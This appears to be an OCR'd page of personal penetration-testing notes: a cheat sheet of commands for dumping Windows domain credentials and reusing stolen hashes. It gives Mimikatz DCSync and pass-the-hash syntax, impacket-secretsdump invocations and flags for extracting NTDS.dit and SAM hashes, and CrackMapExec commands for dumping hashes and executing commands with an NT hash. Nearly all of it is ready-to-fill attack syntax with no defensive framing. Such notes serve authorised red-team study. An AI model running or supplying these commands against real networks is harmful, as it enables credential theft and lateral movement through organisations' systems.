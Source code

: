 - lsadump::dcsync /domain:[domain] /all /csv ⇒ NTDS.dit
    
- equivalent of -just-dc in impacket-secretsdump
    
  
### Impacket
- impacket-secretsdump [domain]/[user]:[password]@[host]
    
OR
- impacket-secretsdump [domain]/[user]@[host] -hashes [hash]
    
Flags:
- -just-dc ⇒ only NTDS.dit data (NTLM hashes and Kerberos keys)
    
- -just-dc-ntlm ⇒ only NTDS.dit data (NTLM hashes only)
    
- -sam [SAM file] -system [SYSTEM file] -security [SECURITY file] local ⇒ dump directly from SAM
    
- -ntds [NTDS file] -system [SYSTEM file] -security [SECURITY file] local ⇒ dump directly from NTDS
    
- -no-pass ⇒ don’t prompt for password (used with -k)
    
- -k [ccache file] ⇒ use kerberos ticket
    
  
### CrackMapExec
crackmapexec smb [host] -u [username] -p [password] [--sam/--lsa/--ntds]
  
# Pass-the-Hash (PTH)
[https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
Note: Hash is in the form [LM hash]:[NT hash] unless otherwise stated. LM hash can also be either empty or 32 zeros in most cases.
  
### Mimikatz
- token::revert
    
- sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[NT hash] /run:"[command]"
    
  
### CrackMapExec
- crackmapexec [protocol] [host] -d [domain] -u [user] -H [NT hash] -x [command]
    
- Can use --local-auth instead of -d
    
- -t [threads]
    
- --verbose
    
  
crackmapexec [protocol] -h for more info
Protocols:
- FTP
    
- RDP
    
- MSSQL
    
